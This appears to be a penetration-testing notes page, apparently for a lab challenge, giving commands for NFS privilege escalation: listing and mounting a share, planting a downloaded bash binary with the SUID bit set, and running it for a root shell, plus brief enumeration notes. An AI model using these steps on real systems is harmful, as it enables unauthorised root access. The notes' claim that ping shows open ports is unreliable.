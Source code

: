     ```
     showmount -e [IP]
    ```
    shows visible NFS shares on that IP 

2. Step Two

    ```
    sudo mount -t nfs IP:share /tmp/mount/ -nolock
    ```
    mounts the share from "IP:share" to the directory "/tmp/mount"

3. Step Three
    Download Bash executable
    ```
    get https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash -P ~/Downloads
    ```
4. Step Four

    ```
    cp ~/Downloads/bash ~/share
    ```
    Copy it to the NFS mount point

5. Step Five

    Change its permissions
    ```
    sudo chmod +s bash
    sudo chmod +x bash
    file should have "-rwsr-sr-x" as permissions
    ```
6. Step Six
    ssh into the machine that now holds the bash executable
    run the executable using
	```
    ./bash -p
    ```
>You should now have a shell as "root"

# Enumeration

```
ping [domain OR ip address]
	
```
displays if there are open ports
```
dig
```
manually query recursive DNS servers
displays TTL
